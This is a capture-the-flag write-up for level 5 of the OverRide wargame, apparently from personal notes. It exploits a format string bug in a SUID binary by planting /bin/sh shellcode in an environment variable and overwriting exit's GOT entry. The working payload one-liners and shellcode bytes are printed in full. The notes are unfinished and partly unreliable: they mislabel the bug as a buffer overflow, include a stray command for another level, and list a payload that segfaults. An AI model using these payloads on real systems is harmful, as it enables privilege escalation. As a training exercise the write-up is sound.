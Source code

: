 # Level 5

## Vulnerability



## Context

We find a binary with owner ```level05``` and SUID.
```
level05@OverRide:~$ ls -l
-rwsr-s---+ 1 level06 users 5176 Sep 10  2016 level05
```

When run ...!!!!!
```
level05@OverRide:~$ ./level05
hello
hello
```

## Solution

### main() overview

Let's take a deeper look at the program. See [dissasembly notes](https://github.com/anyashuka/Override/blob/main/level05/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

This program is a basic ```tolower()```, which is of little interest to us. 

However we do see a call to ```printf()```, which is vulnerable to buffer overflow. 

We also see a call to ```exit()```.

### Build exploit

Let's start by checking our buffer position with a printf() string format exploit.
We can see our buffer "AAAA" in the 10th position on the stack as 61616161.
```
level05@OverRide:~$ python -c 'print "AAAA"+" %x"*12' | ./level05
aaaa 64 f7fcfac0 f7ec3af9 ffffd69f ffffd69e 0 ffffffff ffffd724 f7fdb000 61616161 20782520 25207825
```

Unfortunately, we see the stack is non-executable. 

We can overflow the buffer, but we can't overwrite the EIP with an address (like system("/bin/sh")) in the stack because it won't execute.
```
level05@OverRide:~$ dmesg | grep "Execute Disable"
[    0.000000] NX (Execute Disable) protection: active
```
We're going to have to launch a shell another way. 

We will use [this compact system call opening a shell](http://shell-storm.org/shellcode/files/shellcode-827.php), and save it in an environment variable.  ```\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80```





0xffffd85c:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\353\037^\211v\b1\300\210F\a\211F\f\260\v\211\363\215N\b\215V\f̀1ۉ\330@̀\350\334\377\377\377/bin/sh"
... so 0xffffd85c + A (or 10 in dec) to get past the "SHELLCODE="... which equals 0xffffd866

- overwrite address of exit by address of shellcode
- use %d modifier to write address of shellcode

"exit GOT address" + "4294958369 - 4 bytes" + "%4$n"
(python -c 'print "\xe0\x97\x04\x08" + "%4294958365d" + "%10$n"'; cat) | ./level05

4294958365
2147483647

```
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55397d%10$hn" + "%10130d%11$hn")'; cat) | ./level05
```
---------
./level7 $(python -c 'print "a" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')

(python -c 'print("\xe0\x97\x04\x08" + "%55397d%10$hn" + "%10130d%11$hn")'; cat) | ./level05 <- segfaults

## Recreate Exploited Binary



